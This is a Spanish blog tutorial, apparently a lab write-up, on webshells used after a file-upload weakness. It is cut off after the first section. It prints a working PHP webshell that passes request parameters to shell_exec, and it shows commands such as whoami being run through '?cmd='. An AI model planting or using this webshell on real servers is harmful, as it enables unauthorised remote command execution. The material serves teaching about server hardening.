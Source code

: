 ```yaml
---
title: Tipos de Webshell
excerpt: Creación y uso de webshell
publishDate: 'Sep 27 2025'
tags:
  - webshell
seo:
  image:
    src: '/webshell.png'
    alt: Imagen creada con Chat GPT
---
```


![webshell](/webshell.png)

***Resumen***: Una vez que tenemos un factor de subida de archivos en una web, podemos hacer uso de una webshell. En este laboratorio de va a hacer uso de tres tipos: manual, intrusión al servidor y automática.

***Nota***: Este tutorial pretende mostrar como un servidor puede ser vulnerable si no aplicamos medidas para securizarlo.

## Procedimiento

Una vez tenemos la web abierta en nuestro navegador y ya sabemos que podemos subir archivos, tenemos que practicar fuzzing web para localizar en que ruta se alojan dichos archivos poara poder ejecutar el nuestro. 

## Creación de webshell manual

Basta crear un código en php que nos devuelva una reverse shell a nuestra máquina atacante y así poder ejecutar comandos en la URL.

```bash
 <?php
	 echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
 ?>
 ```


 [![codigo_webshell](/codigo_webshell.png)](/codigo_webshell.png)

 Una vez tenemos nuestra webshell lo subimos y lo ejecutamos y ya podremos ejecutar comandos en el navegador añadiendo:

 ```bash
 ?cmd=comando
 ````

 En este caso ejecuto un **whoami** y vemos que se lleva a cabo perfectamente.

 [![whoami](/whoami_webshell.png)](/whoami_webshell.png)

## Acesso al servidor
